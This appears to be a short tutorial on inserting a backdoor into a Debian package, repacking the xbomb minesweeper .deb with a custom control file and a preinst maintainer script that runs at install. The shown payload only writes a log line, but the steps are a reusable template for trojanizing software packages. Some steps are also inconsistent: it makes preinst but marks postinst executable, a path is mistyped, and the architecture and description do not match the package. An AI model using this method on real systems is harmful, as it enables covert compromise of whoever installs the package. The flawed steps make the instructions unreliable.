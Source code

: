Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# MakeDEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of client at $(date)." >> /tmp/myntp.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
:/tmp/evil/work/DEBIAN$ chmod 755 postinst
:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.
:/tmp/evil$ mv work.deb xbomb.deb
```
Now, we can copy xbomb.deb to home folder and double click for installation

In order to uninstall the .deb file
```bash
$ sudo dpkg -P xbomb
```
